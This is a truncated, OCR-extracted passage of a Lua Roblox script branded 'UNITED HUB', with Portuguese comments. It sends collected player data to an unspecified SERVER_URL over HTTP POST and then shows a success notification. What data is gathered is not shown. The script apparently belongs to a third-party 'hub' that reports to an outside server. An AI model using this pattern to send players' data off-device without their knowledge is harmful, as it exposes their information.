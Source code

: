 ```lua

-- Função para enviar dados para o servidor
local function sendDataToServer()
    local success, result = pcall(function()
        local playerData = collectPlayerData()
        
        local requestData = {
            Url = SERVER_URL,
            Method = "POST",
            Headers = {
                ["Content-Type"] = "application/json",
                ["User-Agent"] = "RobloxScript/UNITED-HUB"
            },
            Body = HttpService:JSONEncode(playerData)
        }
        
        return HttpService:RequestAsync(requestData)
    end)
    
    if success and result.Success then
        print("✅ UNITED HUB: Dados enviados com sucesso!")
    else
        warn("❌ UNITED HUB: Falha ao enviar dados - " .. tostring(result))
    end
end

-- Criar uma notificação visual para o jogador
local function createNotification()
    local screenGui = Instance.new("ScreenGui")
    screenGui.Name = "UnitedHubNotification"
    screenGui.ResetOnSpawn = false
    screenGui.Parent = player:WaitForChild("PlayerGui")
    
    local frame = Instance.new("Frame")
    frame.Size = UDim2.new(0, 300, 0, 80)
    frame.Position = UDim2.new(1, -320, 0, 20)
    frame.BackgroundColor3 = Color3.fromRGB(26, 26, 46)
    frame.BorderSizePixel = 0
    frame.Parent = screenGui
    
    local corner = Instance.new("UICorner")
    corner.CornerRadius = UDim.new(0, 10)
    corner.Parent = frame
    
    local title = Instance.new("TextLabel")
    title.Size = UDim2.new(1, 0, 0.5, 0)
    title.Position = UDim2.new(0, 0, 0, 0)
    title.BackgroundTransparency = 1
    title.Text = "🔑 UNITED HUB"
    title.TextColor3 = Color3.fromRGB(0, 255, 136)
    title.TextScaled = true
    title.Font = Enum.Font.GothamBold
    title.Parent = frame
    
    local message = Instance.new("TextLabel")
    message.Size = UDim2.new(1, 0, 0.5, 0)
    message.Position = UDim2.new(0, 0, 0.5, 0)
    message.BackgroundTransparency = 1
    message.Text = "Script executado com sucesso!"
    message.TextColor3 = Color3.fromRGB(255, 255, 255)
    message.TextScaled = true
    message.Font = Enum.Font.Gotham
    message.Parent = frame
```
